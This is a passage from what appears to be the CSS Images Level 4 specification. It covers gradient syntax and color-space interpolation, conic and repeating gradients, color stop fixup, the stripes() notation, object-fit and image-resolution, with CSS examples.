> Note that the elementSources map is consulted *before* the document to match the ID selector, so even if there’s an element in the document that would match `#fancy`, the backgrounds will still predictably come from the elementSources value instead.

##### 2.7.3.  Cycle Detection {#css-images-4:element-cycles}

The `element()` function can produce nonsensical circular relationships, such as an element using itself as its own background. These relationships can be easily and reliably detected and resolved, however, by keeping track of a dependency graph and using common cycle-detection algorithms.

The dependency graph consists of edges such that:

- every element depends on its children
- for any element A with a property using the `element()` function pointing to an element B, A depends on B
- if a host language defines a way for elements to refer to the rendering of other elements, the referencing element depends on the referenced element. For example, in SVG, a `<use>` element depends on the element it referenced.

If the graph contains a cycle, any `element()` functions participating in the cycle are invalid images.

### 3.  Gradients {#css-images-4:gradients}

A gradient is an image that smoothly fades from one color to another. These are commonly used for subtle shading in background images, buttons, and many other things. The **gradient functions** described in this section allow an author to specify such an image in a terse syntax, so that the UA can generate the image automatically when rendering the page. The syntax of a `<gradient>` is:

```css
<gradient> = [
  <linear-gradient()> | <repeating-linear-gradient()> |
  <radial-gradient()> | <repeating-radial-gradient()> |
  <conic-gradient()>  | <repeating-conic-gradient()> ]
```

> **Example:** As with the other `<image>` types defined in this specification, gradients can be used in any property that accepts images. For example:
>
> - `background: linear-gradient(white, gray);`
> - `list-style-image: radial-gradient(circle, #006, #00a 90%, #0000af 100%, white 100%)`

A gradient is drawn into a box with the dimensions of the concrete object size, referred to as the **gradient box**. However, the gradient itself has no natural dimensions.

> **Example:** For example, if you use a gradient as a background, by default the gradient will draw into a gradient box the size of the element’s padding box. If `background-size` is explicitly set to a value such as `100px 200px`, then the gradient box will be 100px wide and 200px tall. Similarly, for a gradient used as a `list-style-image`, the box would be a 1em square, which is the default object size for that property.

Gradients are specified by defining the **starting point** and **ending point** of a **gradient line** (which, depending on the type of gradient, may be technically a line, or a ray, or a spiral), optionally an interpolation color space, and then specifying colors at points along this line. The colors are smoothly blended, in the interpolation color space, as described in [CSS Color 4 §  13. Color Interpolation](#css-color-4:interpolation), to fill in the rest of the line, and then each type of gradient defines how to use the color of the gradient line to produce the actual gradient.

#### 3.1. Linear Gradients: the `linear-gradient()` notation {#css-images-4:linear-gradients}

This level adds a `<color-interpolation-method>` argument to `linear-gradient()` and `repeating-linear-gradient()`, indicating the color space and path to use when interpolating colors on the gradient line. See [CSS Color 4 §  13. Color Interpolation](#css-color-4:interpolation).

```css
<linear-gradient-syntax> =
  [ [ <angle> | <zero> | to <side-or-corner> ] || <color-interpolation-method> ]? ,
  <color-stop-list>
<side-or-corner> = [left | right] || [top | bottom]
```

##### 3.1.1. Effects of color space on interpolation: examples {#css-images-4:color-interpolation}

*This section is non-normative.*

The effect of colorspace on interpolation can be significant.

> **Example:** In this example, a linear gradient between the same pair of colors #f01 and #081 is drawn in three different colorspaces. The middle gradient uses gamma-encoded sRGB, which was the only choice in CSS Images 3; the result is clearly too dark at the midpoint. The upper gradient uses CIE Lab, giving a more perceptually uniform result; while the lower gradient uses Oklab, which here gives almost the same result as CIE Lab.
>
> - `linear-gradient(in lab to right, #F01, #081)`
> - `linear-gradient(in srgb to right, #F01, #081)`
> - `linear-gradient(in Oklab to right, #F01, #081)`
>
> 

> **Example:** In this example, a linear gradient between the same pair of colors white and #01E is drawn in three different colorspaces. The middle gradient uses gamma-encoded sRGB, the result is again too dark at the midpoint, is a little desaturated, and has a slight purplish cast. The upper gradient uses CIE Lab, which avoids the too-dark midpoint but has a significant purple cast; while the lower gradient uses Oklab, giving a more perceptually uniform result with no purple cast at all.
>
> - `linear-gradient(in lab to right, white, #01E)`
> - `linear-gradient(in srgb to right, white, #01E)`
> - `linear-gradient(in Oklab to right, white, #01E)`
>
> 

> **Example:** In this example, a linear gradient between the same pair of colors #44C and #795 is drawn in three different colorspaces. This demonstrates that the hue non-linearity of CIE Lab affects all bulueish colors, not just the gradient from saturated primary blue to white. The middle gradient uses gamma-encoded sRGB, the result is again too dark at the midpoint, and has a slight purplish cast. The upper gradient uses CIE Lab, which avoids the too-dark midpoint but has a significant purple cast; while the lower gradient uses Oklab, again giving a more perceptually uniform result with no purple cast at all.
>
> - `linear-gradient(in lab to right, #44C, #795)`
> - `linear-gradient(in srgb to right, #44C, #795)`
> - `linear-gradient(in Oklab to right, #44C, #795)`
>
> 

Choosing a polar, rather than rectangular, colorspace for gradient interpolation avoids desaturation if the hues of the color stops are far apart. Interpolating in a polar colorspaces is inherently chroma-preserving, although it is easy for the intermediate colors to fall out of gamut; they will then be gamut mapped to bring them back into gamut.

> **Example:** In this example, a linear gradient between the same pair of colors #A37 and #595 is drawn in five different colorspaces, two of them polar. From top to bottom: CIE LCH, CIE Lab, sRGB, Oklab, Oklch.
>
> The rectangular spaces have a greyish midpoint, while the intermediate colors in the polar spaces follow a curved, chroma-preserving path.
>
> - `linear-gradient(in lch to right, #A37, #595)`
> - `linear-gradient(in lab to right, #A37, #595)`
> - `linear-gradient(in srgb to right, #A37, #595)`
> - `linear-gradient(in Oklab to right, #A37, #595)`
> - `linear-gradient(in oklch to right, #A37, #595)`
>
> 

#### 3.2. Radial Gradients: the `radial-gradient()` notation {#css-images-4:radial-gradients}

##### 3.2.1.  Adding `<color-interpolation-method>` {#css-images-4:radial-color-interpolation}

This level adds a `<color-interpolation-method>` argument to `radial-gradient()` and `repeating-radial-gradient()`, indicating the color space and path to use when interpolating colors on the gradient line. See [CSS Color 4 §  13. Color Interpolation](#css-color-4:interpolation).

```css
<radial-gradient-syntax> =
  [ [ [ <radial-shape> || <radial-size> ]? [ at <position> ]? ] || <color-interpolation-method>]? ,
  <color-stop-list>
```

> **Example:** In this example, a radial gradient between the same pair of colors color(display-p3 0.918 0.2 0.161) and #081 is drawn in three different colorspaces. Notice that the color stops do not all need to be in the same colorspace. The middle gradient uses gamma-encoded sRGB, the result is clearly too dark at the midpoint. The upper gradient uses CIE Lab, giving a more perceptually uniform result; while the lower gradient uses Oklab, which here gives almost the same result as CIE Lab.
>
> - `radial-gradient(in lab farthest-side at left bottom, color(display-p3 0.918 0.2 0.161), #081)`
> - `radial-gradient(in srgb farthest-side at left bottom, color(display-p3 0.918 0.2 0.161), #081)`
> - `radial-gradient(in Oklab farthest-side at left bottom, color(display-p3 0.918 0.2 0.161), #081)`
>
> 

##### 3.2.2.  Expanding `<radial-size>` {#css-images-4:radial-size}

This level extends the `<radial-size>` options to include the additions from the `circle()` and `ellipse()` `<basic-shape>` values:

```css
<radial-size> = <radial-extent>{1,2} | <length-percentage [0,∞]>{1,2}
```

Two-component values remain invalid when specifying `circle` as the `<radial-shape>`, and otherwise indicate the horizontal (first) and vertical (second) radii of the ellipse.

For `circle`, a `<percentage>` value is resolved against the “scaled diagonal” of the gradient box’s width and height: `sqrt(width² + height²)/sqrt(2)`.

#### 3.3.  Conic Gradients: the `conic-gradient()` notation {#css-images-4:conic-gradients}

A conic gradient starts by specifying the center of a circle, similar to radial gradients, except that conic gradient color-stops are placed *around* the circumference of the circle, rather than on a line emerging from the center, causing the color to smoothly transition as you spin around the center, rather than as you progress outward from the center.

A conic gradient is specified by indicating a rotation angle, the center of the gradient, and then specifying a list of color-stops. Unlike linear and radial gradients, whose color-stops are placed by specifying a `<length>`, the color-stops of a conic gradient are specified with an `<angle>`. Rays are then drawn emerging from the center and pointing in all directions, with the color of each ray equal to the color of the gradient-line where they intersect it.

> **Note:** These gradients are called "conic" or "conical" because, if the color stops are chosen to be significantly lighter on one side than the other, it produces a pattern that looks like a cone observed from above. They are also known as "angle" gradients in some contexts, since they are produced by varying the rotation angle of a ray.

> **Example:** ![[An image showing a box with a background shading gradually clockwise from white to black, starting from the top. A gradient circle is shown, and the colors at 0 and 216 degrees respectively.]](../css-images-4/images/conic-diagram.png)
>
> This example visually illustrates how `conic-gradient(at 25% 30%, white, black 60%)` would be drawn. Note that since color stop positions always resolve to angles, the only effect of the `at 25% 30%` is a 2D translation of the gradient, i.e. it does not affect how the gradient is drawn.

##### 3.3.1.  `conic-gradient()` Syntax {#css-images-4:conic-gradient-syntax}

The syntax for a conic gradient is:

```css
conic-gradient() = conic-gradient( [ <conic-gradient-syntax> ] )
<conic-gradient-syntax> =
  [ [ [ from [ <angle> | <zero> ] ]? [ at <position> ]? ] || <color-interpolation-method> ]? ,
  <angular-color-stop-list>
```

The arguments are defined as follows:

****`<angle>` | `<zero>`****

: The entire gradient is rotated by this angle. If omitted, defaults to `0deg`. The unit identifier may be omitted if the `<angle>` is zero.

****`<position>`****

: Determines the **gradient center** of the gradient. The `<position>` value type (which is also used for `background-position`) is defined in [CSS-VALUES-3], and is resolved using the center-point as the object area and the gradient box as the positioning area. If this argument is omitted, it defaults to `center`.

> **Issue:** Usually in conic gradients the sharp transition at 0deg is undesirable, which is typically avoided by making sure the first and last color stops are the same color. Perhaps it would be useful to have a keyword for automatically achieving this.

> **Issue:** Would a radius (inner & outer) for clipping the gradient be useful? If so, we could also support lengths in color stop positions, since we now have a specific radius.

> **Issue:** Are elliptical conic gradients useful? Do graphics libraries support them?

##### 3.3.2.  Placing Color Stops {#css-images-4:conic-color-stops}

Color stops are placed on a gradient line that curves around the gradient center in a circle, with both the 0% and 100% locations at 0deg. Just like linear gradients, 0deg points to the top of the page, and increasing angles correspond to clockwise movement around the circle.

> **Note:** It may be more helpful to think of the gradient line as forming a spiral, where only the segment from 0deg to 360deg is rendered. This avoids any confusion about "overlap" when you have angles outside of the rendered region.

A color-stop can be placed at a location before 0% or after 100%; though these regions are never directly consulted for rendering, color stops placed there can affect the color of color-stops within the rendered region through interpolation or repetition (see [repeating gradients](#css-images-4:repeating-gradients)). For example, `conic-gradient(red -50%, yellow 150%)` produces a conic gradient that starts with a reddish-orange color at 0deg (specifically, #f50), and transitions to an orangish-yellow color at 360deg (specifically, #fa0).

The color of the gradient at any point is determined by first finding the unique ray anchored at the center of the gradient that passes through the given point. The point’s color is then the color of the gradient line at the location where this ray intersects it.

##### 3.3.3.  Conic Gradient Examples {#css-images-4:conic-gradient-examples}

All of the following `conic-gradient()` examples are presumed to be applied to a box that is 300px wide and 200px tall, unless otherwise specified.

> **Example:** Below are various ways of specifying the same basic conic gradient:
>
> ```css
> background: conic-gradient(#f06, gold);
> background: conic-gradient(at 50% 50%, #f06, gold);
> background: conic-gradient(from 0deg, #f06, gold);
> background: conic-gradient(from 0deg at center, #f06, gold);
> background: conic-gradient(#f06 0%, gold 100%);
> background: conic-gradient(#f06 0deg, gold 1turn);
> ```
>
> 

> **Example:** Below are various ways of specifying the same basic conic gradient. This demonstrates how even though color stops with angles outside [0deg, 360deg) are not directly painted, they can still affect the color of the painted part of the gradient.
>
> ```css
> background: conic-gradient(white -50%, black 150%);
> background: conic-gradient(white -180deg, black 540deg);
> background: conic-gradient(hsl(0,0%,75%), hsl(0,0%,25%));
> ```
>
> 

> **Example:** Below are two different ways of specifying the same rotated conic gradient, one with a rotation angle and one without:
>
> ```css
> background: conic-gradient(from 45deg, white, black, white);
> background: conic-gradient(hsl(0,0%,75%), white 45deg, black 225deg, hsl(0,0%,75%));
> ```
>
> 
>
> Note that offsetting every color stop by the rotation angle instead would not work and produces an entirely different gradient:
>
> ```
> background: conic-gradient(white 45deg, black 225deg, white 405deg);
> ```
>
> 

> **Example:** A conic gradient with a radial gradient overlaid on it, to draw a hue & saturation wheel:
>
> ```css
> background: radial-gradient(closest-side, gray, transparent),
>             conic-gradient(red, magenta, blue, aqua, lime, yellow, red);
> border-radius: 50%;
> width: 200px; height: 200px;
> ```
>
> You can also achieve the same effect using "longer" hue interpolation. This is more concise and makes it easy to switch to other color spaces.
>
> ```css
> background: radial-gradient(closest-side, gray, transparent),
>             conic-gradient(in hsl longer hue, red 0 100%);
> transform: scaleX(-1);
> border-radius: 50%;
> width: 200px; height: 200px;
> ```
>
> 

> **Example:** A conic gradient used to draw a simple pie chart. The `0deg` color stop positions will be fixed up to be equal to the position of the color stop before them. This will produce infinitesimal (invisible) transitions between the color stops with different colors, effectively producing solid color segments.
>
> ```css
> background: conic-gradient(yellowgreen 40%, gold 0deg 75%, #f06 0deg);
> border-radius: 50%;
> width: 200px; height: 200px;
> ```
>
> 

#### 3.4.  Repeating Gradients: the `repeating-linear-gradient()`, `repeating-radial-gradient()`, and `repeating-conic-gradient()` notations {#css-images-4:repeating-gradients}

In addition to `linear-gradient()`, `radial-gradient()`, and `conic-gradient()`, this specification defines **repeating-linear-gradient()**, **repeating-radial-gradient()**, and **repeating-conic-gradient()** values. These notations take the same values and are interpreted the same as their respective non-repeating siblings defined previously.

```css
<repeating-conic-gradient()> = repeating-conic-gradient( [ <conic-gradient-syntax> ] )
<repeating-linear-gradient()> = repeating-linear-gradient( [ <linear-gradient-syntax> ] )
<repeating-radial-gradient()> = repeating-radial-gradient( [ <radial-gradient-syntax> ] )
```

> **Example:** Basic repeating conic gradient:
>
> ```
> background: repeating-conic-gradient(gold, #f06 20deg);
> ```
>
> 

> **Example:** Repeating color stops with abrupt transitions creates a starburst-type background:
>
> ```css
> background: repeating-conic-gradient(
>                 hsla(0,0%,100%,.2) 0deg 15deg,
>                 hsla(0,0%,100%,0) 0deg 30deg
>             ) #0ac;
> ```
>
> 

> **Example:** Here repeating color stops with abrupt transitions are used to create a checkerboard:
>
> ```css
> background: repeating-conic-gradient(black 0deg 25%, white 0deg 50%);
> background-size: 60px 60px;
> ```
>
> 
>
> The same checkerboard can be created via non-repeating conic gradients:
>
> ```css
> background: conic-gradient(black 25%, white 0deg 50%, black 0deg 75%, white 0deg);
> background-size: 60px 60px;
> ```

#### 3.5. Defining Gradient Color {#css-images-4:gradient-colors}

The colors in gradients are specified using **color stops** (a `<color>` and a corresponding position on the gradient line), optional **color transition hints** (a position between two color stops representing the halfway point in the color transition), and an optional interpolation color space. The stops are placed on the gradient line, defining by interpolating the color at every point of the line. (Each gradient function defines the shape and length of the gradient line, along with its starting point and ending point; see above.)

Colors throughout the gradient field are then determined by tying them to specific points along the gradient line as specified by the gradient function.

Colors produced by interpolation may be out of gamut, in that case, the out of gamut colors in the gradient field must be css gamut mapped for display or when rendered to a canvas.

> **Example:** For example, consider a gradient between two colors  #1A1 and  #23F, in the `oklch` color space. Because the interpolation follows a curved path, most of the interpolated values are outside the gamut of `srgb` and also of `display-p3`.
>
> 
>
> Interpolation in oklch can produce out of gamut colors even if the end points are in gamut. Diagram shows three gamuts in Oklch, plus the gradient interpolation path.
>
> The rendered gradient is shown twice: firstly, with out of sRGB gamut colors represented by black; secondly, with the out of gamut colors CSS Gamut Mapped to sRGB.
>
> 

Gradients are suceptible to an optical illusion called Mach Banding [MachBanding], where the eye applies local contrast boosting at color boundaries. UAs may “dither” gradient colors slightly (randomly alternate individual pixels with nearby colors on the gradient line) to effect a smoother gradient.

##### 3.5.1.  Color Stop Lists {#css-images-4:color-stop-syntax}

Color stops and transition hints are specified in a **color stop list**, which is a list of one or more color stops interleaved with optional transition hints:

```css
<color-stop-list> =
  <linear-color-stop> , [ <linear-color-hint>? , <linear-color-stop> ]#?
<linear-color-stop> = <color> <color-stop-length>?
<linear-color-hint> = <length-percentage>
<color-stop-length> = <length-percentage>{1,2}

<angular-color-stop-list> =
  <angular-color-stop> , [ <angular-color-hint>? , <angular-color-stop> ]#?
<angular-color-stop> = <color> <color-stop-angle>?
<angular-color-hint> = <angle-percentage> | <zero>
<color-stop-angle> = [ <angle-percentage> | <zero> ]{1,2}

<color-stop> = <color-stop-length> | <color-stop-angle>
```

> **Note:** that `<color-stop-list>` and `<angular-color-stop-list>` are exactly identical in structure, they just differ on whether they accept `<length>`s or `<angle>`s for specifying the position of the stops and hints.
>
> Visualized with a railroad diagram, both of them follow this pattern:

A color stop with two positions is equivalent to specifying two color stops with the same color, one for each position.

> **Note:** Usually, this results in a solid-color "stripe" between the two positions, but using a `longer` `<color-interpolation-method>` will instead create a "rainbow" between the two positions.

Percentages are resolved against the length of the gradient line between the starting point and ending point, with 0% being at the starting point and 100% being at the ending point. Lengths are measured along the gradient line from the starting point in the direction of the ending point.

Color stop and transition hint positions are usually placed between the starting point and ending point, but that’s not required: the gradient line extends infinitely in both directions, and positions can be specified anywhere on the gradient line.

When the position of a color stop is omitted, it is automatically assigned a position. The first or last color stop in the color stop list is assigned the gradient line’s starting point or ending point (respectively). Otherwise, it’s assigned the position halfway between the two surrounding stops. If multiple stops in a row lack a position, they space themselves out equally between the surrounding positioned stops. See [§ 3.5.3 Color Stop “Fixup”](#css-images-4:color-stop-fixup) for details.

##### 3.5.2.  Coloring the Gradient Line {#css-images-4:coloring-gradient-line}

At each color stop position, the gradient line is the color of the color stop. Before the first color stop, the gradient line is the color of the first color stop, and after the last color stop, the gradient line is the color of the last color stop. Between each pair of color stops, the gradient line’s color is interpolated between the colors of the two color stops, with the interpolation taking place in the specified color space, with missing components handled as defined in [CSS Color 4 § 13.4 Interpolating with Missing Components](#css-color-4:interpolation-missing), hue interpolation as defined in [CSS Color 4 § 13.6 Hue Interpolation](#css-color-4:hue-interpolation), and using premultiplied alpha, as defined in [CSS Color 4 § 13.5 Interpolating with Alpha](#css-color-4:interpolation-alpha). If no `<color-interpolation-method>` is specified in the gradient function, the color space used for gradient interpolation is the default interpolation color space, Oklab, as defined in [css-color-4].

> **Note:** The `<color-interpolation-method>` only affects the colors *between* stops. The color before the first and after the last stop is equal to the first/last stop, *regardless* of the interpolation method.

> **Example:** For example, given the following gradient definition:
>
> ```css
> linear-gradient(in oklch, red, #888, green)
> ```
>
> the conversion of the neutral #888 to oklch gives a missing hue component: oklch(0.6268 0 none)
>
> and thus, in the first gradient segment, the hue is taken from red, which is oklch(0.628 0.2577 29.234); while in the second segment it is taken from green, which is oklch(0.5198 0.1769 142.5)

By default, this interpolation is linear—​at 25%, 50%, or 75% of the distance between two color stops, the color is a 25%, 50%, or 75% blend of the colors of the two stops.

However, if a transition hint was provided between two color stops, the interpolation is non-linear, and controlled by the hint:

1. Determine the location of the transition hint as a percentage of the distance between the two color stops, denoted as a number between 0 and 1, where 0 indicates the hint is placed right on the first color stop, and 1 indicates the hint is placed right on the second color stop. Let this percentage be *H*.
2. For any given point between the two color stops, determine the point’s location as a percentage of the distance between the two color stops, in the same way as the previous step. Let this percentage be *P*.
3. Let *C*, the color weighting at that point, be equal to `PlogH(.5)`.
4. The color at that point is then a linear blend between the colors of the two color stops, blending `(1 - C)` of the first stop and *C* of the second stop.

> **Note:** The transition hint specifies where the “halfway color”—​the 50% blend between the colors of the two surrounding color stops—​should be placed. When the hint is exactly halfway between the two surrounding color stops, the above interpolation algorithm happens to produce the ordinary linear interpolation. If the hint is placed anywhere else, it produces a smooth exponential curve between the surrounding color stops, with the “halfway color” occurring exactly where the hint specifies.

> **Example:** Here an example of a linear gradient without transition hint (top) compared to one with a transition hint between the red and blue color stops (bottom).
>
> 
>
> Top - Without transition hint (falling back to the default halfway transition hint):
>
> ```css
> background: linear-gradient(to right, red 0%, blue 100%);
> ```
>
> Bottom - With transition hint:
>
> ```css
> background: linear-gradient(to right, red 0%, 25%, blue 100%);
> ```

If multiple color stops have the same position, they produce an infinitesimal transition from the one specified first in the list to the one specified last. In effect, the color suddenly changes at that position rather than smoothly transitioning.

##### 3.5.3.  Color Stop “Fixup” {#css-images-4:color-stop-fixup}

When resolving the used positions of each color stop, the following steps must be applied *in order*:

1. If the first color stop does not have a position, set its position to 0%.
2. If the last color stop does not have a position, set its position to 100%.
3. If a color stop or transition hint has a position that is less than the specified position of any color stop or transition hint before it in the list, set its position to be equal to the largest specified position of any color stop or transition hint before it.
4. If any color stop still does not have a position, then, for each run of adjacent color stops without positions, set their positions so that they are evenly spaced between the preceding and following color stops with positions.

After applying these rules, all color stops and transition hints will have a definite position and color and they will be in ascending order.

> **Note:** It is recommended that authors exercise caution when mixing different types of units, such as px, em, or %, as this can cause a color stop to unintentionally try to move before an earlier one. For example, the rule `background-image: linear-gradient(yellow 100px, blue 50%)` wouldn’t trigger any fix-up while the background area is at least `200px` tall. If it was `150px` tall, however, the blue color stop’s position would be equivalent to `75px`, which precedes the yellow color stop, and would be corrected to a position of `100px`. Additionally, since the relative ordering of such color stops cannot be determined without performing layout, they will not interpolate smoothly in [animations](#css-animations-2) or [transitions](#css-transitions-2).

> **Example:** Below are several pairs of gradients. The latter of each pair is a manually “fixed-up” version of the former, obtained by applying the above rules. For each pair, both gradients will render identically. The numbers in each arrow specify which fixup steps are invoked in the transformation.
>
> ```
> 1. linear-gradient(red, white 20%, blue)
>    =1=>
>    linear-gradient(red 0%, white 20%, blue 100%)
>
> 2. linear-gradient(red 40%, white, black, blue)
>    =1,3=>
>    linear-gradient(red 40%, white 60%, black 80%, blue 100%)
>
> 3. linear-gradient(red -50%, white, blue)
>    =1,3=>
>    linear-gradient(red -50%, white 25%, blue 100%)
>
> 4. linear-gradient(red -50px, white, blue)
>    =1,3=>
>    linear-gradient(red -50px, white calc(-25px + 50%), blue 100%)
>
> 5. linear-gradient(red 20px, white 0px, blue 40px)
>    =2=>
>    linear-gradient(red 20px, white 20px, blue 40px)
>
> 6. linear-gradient(red, white -50%, black 150%, blue)
>    =1,2=>
>    linear-gradient(red 0%, white 0%, black 150%, blue 150%)
>
> 7. linear-gradient(red 80px, white 0px, black, blue 100px)
>    =2,3=>
>    linear-gradient(red 80px, white 80px, black 90px, blue 100px)
> ```

### 4. 1D Image Values: the `<image-1D>` type and `stripes()` notation {#css-images-4:stripes}

While `<image>` values represent a 2-dimensional (2D) image, and `<color>` can be thought of as a 0-dimensional (0D) image (unvarying in either axis), some contexts require a **1-dimensional (1D) image**, which specifies colors along an abstract, directionless, single-axis **paint line**. The **`<image-1D>`** type represents such 1D images, including the `stripes()` functional notation:

```css
<image-1D> = <stripes()>
<stripes()> = stripes( <color-stripe># )
<color-stripe> = <color> && [ <length-percentage> | <flex> ]?
```

The **stripes()** function defines a 1D image as a comma-separated list of colored stripes, each placed end-to-end on the paint line in the order given.

Each **`<color-stripe>`** entry defines a solid-color stripe with the specified `<color>` and thickness. If the thickness is omitted, it defaults to `1fr`. Thickness values are interpreted as follows:

****`<percentage [0,100]>`****

: Percentage thicknesses are relative to the *total width*. Only values between `0%` and `100%` (inclusive) are valid.

****`<length [0,∞]>`****

: Negative length values are invalid.

****`<flex>`****

: A `<flex>` is evaluated as a fraction of the *total width* relative to the total sum of <flex> entries in the function, after subtracting the thickness of any non-<flex> entries (flooring the subtraction result at zero). If the sum of <flex> values is less than `1fr`, the result of the subtraction is multiplied by the sum’s value before being distributed.

The *total width* refers to the length of the paint line. It is defined by the context in which the `stripes()` function is used. If the sum of the stripes is smaller than the *total width*, the paint line is transparent black for its remaining length, as if a final `transparent` argument were given. If the sum is larger, any stripes or portions beyond the *total width* are truncated.

> **Example:** For example, `stripes(red 1fr, green 2fr, blue 100px)` with a *total width* of `400px` will result in a 100px red stripe and 200px green stripe, giving red 1 share and green 2 shares of the 300px remaining after subtracting blue’s 100px from the 400px total.
>
> 
>
> On the other hand, `stripes(red .1fr, green .2fr, blue 100px)` with a *total width* of `400px` will instead give a 30px red stripe and 60px green stripe, followed by 100px of blue and then 210px of transparent. The 300px of leftover space is multiplied by .3, the value of the sum of the `<flex>` values, to obtain only 90px, which is then distributed in the 1:2 ratio dictated by the <flex> values.
>
> 
>
> (This is similar to how flex layout deals with small `<flex>` sums on a line, and ensures smoothly continuous behavior as the <flex> values approach zero.)

The computed value of this function is an ordered list of stripes, each given as a computed color and a thickness represented either a `<flex>` value or a computed `<length-percentage>` value.

### 5. Sizing Images and Objects in CSS {#css-images-4:sizing}

#### 5.1. Sizing Objects: the `object-fit` property {#css-images-4:the-object-fit}

| Field | Value |
| --- | --- |
| Name: | **object-fit** |
| [Value:](#css-values-4:value-defs) | fill \| none \| [contain \| cover] \|\| scale-down |
| [Initial:](#css-cascade-6:initial-values) | fill |
| [Applies to:](#css-cascade-5:applies-to) | replaced elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `object-fit` property specifies how the contents of a replaced element should be fitted to the box established by its used height and width.

****fill****

: The replaced content is sized to fill the element’s content box: the object’s concrete object size is the element’s used width and height.

****none****

: The replaced content is not resized to fit inside the element’s content box: determine the object’s concrete object size using the default sizing algorithm with no specified size, and a default object size equal to the replaced element’s used width and height.

****contain****

: The replaced content is sized to maintain its aspect ratio while fitting within the element’s content box: its concrete object size is resolved as a contain constraint against the element’s used width and height.

  If the `scale-down` flag is used, size the content as if `none` or `contain` were specified, whichever would result in a smaller concrete object size.

  > **Note:** Both `none` and `contain` respect the content’s natural aspect ratio, so the concept of "smaller" is well-defined.

****cover****

: The replaced content is sized to maintain its aspect ratio while filling the element’s entire content box: its concrete object size is resolved as a cover constraint against the element’s used width and height.

  If the `scale-down` flag is used, size the content as if `none` or `cover` were specified, whichever would result in a smaller concrete object size.

  > **Note:** Both `none` and `cover` respect the content’s natural aspect ratio, so the concept of "smaller" is well-defined.

****scale-down****

: Equivalent to `contain scale-down`.

If the content does not completely fill the replaced element’s content box, the unfilled space shows the replaced element’s background. Since replaced elements always clip their contents to the content box, the content will never overflow. See the `object-position` property for positioning the object with respect to the content box.


An example showing how four of the values of `object-fit` cause the replaced element (blue figure) to be scaled to fit its height/width box (shown with a green background), using the initial value for `object-position`. In this case, `scale-down` and `scale-down contain` would look identical to `contain`, and `scale-down cover` would look identical to `none`.

> **Note:** The `object-fit` property has similar semantics to the `fit` attribute in [SMIL10] and the `<meetOrSlice>` parameter on the [`preserveAspectRatio` attribute](https://www.w3.org/TR/SVG11/coords.html#PreserveAspectRatioAttribute) in [SVG11].

> **Note:** Per the object size negotiation algorithm, the concrete object size (or, in this case, the size of the content) does not directly scale the object itself - it is merely passed to the object as information about the size of the visible canvas. How to then draw into that size is up to the image format. In particular, raster images always scale to the given size, while SVG uses the given size as the size of the "SVG Viewport" (a term defined by SVG) and then uses the values of several attributes on the root `<svg>` element to determine how to draw itself.

### 6. Image Processing {#css-images-4:image-processing}

#### 6.1. Overriding Image Resolutions: the `image-resolution` property {#css-images-4:the-image-resolution}

The **image resolution** is defined as the number of image pixels per unit length, e.g., pixels per inch. Some image formats can record information about the resolution of images. This information can be helpful when determining the actual size of the image in the formatting process. However, the information can also be wrong, in which case it should be ignored. By default, CSS assumes a resolution of one image pixel per CSS `px` unit; however, the `image-resolution` property allows using some other resolution.

| Field | Value |
| --- | --- |
| Name: | **image-resolution** |
| [Value:](#css-values-4:value-defs) | [ from-image \|\| `<resolution>` ] && snap? |
| [Initial:](#css-cascade-6:initial-values) | 1dppx |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword(s) and/or `<resolution>` (possibly adjusted for `snap`, see below) |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

> **Issue:** The `image-set()` notation can alter the natural resolution of an image, which ideally would be automatically honored without having to set this property. How should we best address this? Change the initial value to `auto`, meaning "1dppx, unless CSS says otherwise"? Say that image-resolution has no effect on images whose resolution was set by something else in CSS? Or somehow wordsmithing `image-set()` in some way such that it always produces `1dppx` images somehow?

The `image-resolution` property specifies the preferred resolution of all raster images used in or on the element. It affects both content images (e.g. replaced elements and generated content) and decorative images (such as `background-image`). The **preferred resolution** of an image is used to determine the image’s natural dimensions. Values have the following meanings:

****`<resolution>`****

: Specifies the preferred resolution explicitly. A "dot" in this case corresponds to a single image pixel.

****from-image****

: The image’s preferred resolution is taken as that specified by the image format (the **natural resolution**). If the image does not specify its own resolution, the explicitly specified resolution is used (if given), else it defaults to `1dppx`.

  > **Note:** [CSS Images 3 § 2.1.2 Image Metadata](#css-images-3:url-metadata) imposes some restrictions on what metadata can be used.

****snap****

: If the "snap" keyword is provided, the computed `<resolution>` (if any) is the specified resolution rounded to the nearest value that would map one image pixel to an integer number of device pixels. If the resolution is taken from the image, then the used natural resolution is the image’s native resolution similarly adjusted.

As vector formats such as SVG do not have a natural resolution, this property has no effect on vector images.

> **Example:** Printers tend to have substantially higher resolution than computer monitors; due to this, an image that looks fine on the screen may look pixelated when printed out. The `image-resolution` property can be used to embed a high-resolution image into the document and maintain an appropriate size, ensuring attractive display both on screen and on paper:
>
> ```css
> img.high-res {
>   image-resolution: 300dpi;
> }
> ```
>
> With this set, an image meant to be 5 inches wide at 300dpi will actually display as 5in wide; without this set, the image would display as approximately 15.6in wide since the image is 15000 image pixels across, and by default CSS displays 96 image pixels per inch.

> **Example:** Some image formats can encode the image resolution into the image data. This rule specifies that the UA should use the image resolution found in the image itself, falling back to 1 image pixel per CSS `px` unit.
>
> ```css
> img { image-resolution: from-image }
> ```
>
> These rules both specify that the UA should use the image resolution found in the image itself, but if the image has no resolution, the resolution is set to `300dpi` instead of the default `1dppx`.
>
> ```css
> img { image-resolution: from-image 300dpi }
> img { image-resolution: 300dpi from-image }
> ```

> **Example:** Using this rule, the image resolution is set to 300dpi. (The resolution in the image, if any, is ignored.)
>
> ```css
> img { image-resolution: 300dpi }
> ```
>
> This rule, on the other hand, if used when the screen’s resolution is 96dpi, would instead render the image at 288dpi (so that 3 image pixels map to 1 device pixel):
>
> ```css
> img { image-resolution: 300dpi snap; }
> ```
>
> The `snap` keyword can also be used when the resolution is taken from the image:
>
> ```css
> img { image-resolution: snap from-image; }
> ```
>
> An image declaring itself as 300dpi will, in the situation above, display at 288dpi (3 image pixels per device pixel) whereas an image declaring 72dpi will render at 96dpi (1 image pixel per device pixel).

### 7. Interpolation {#css-images-4:interpolation}

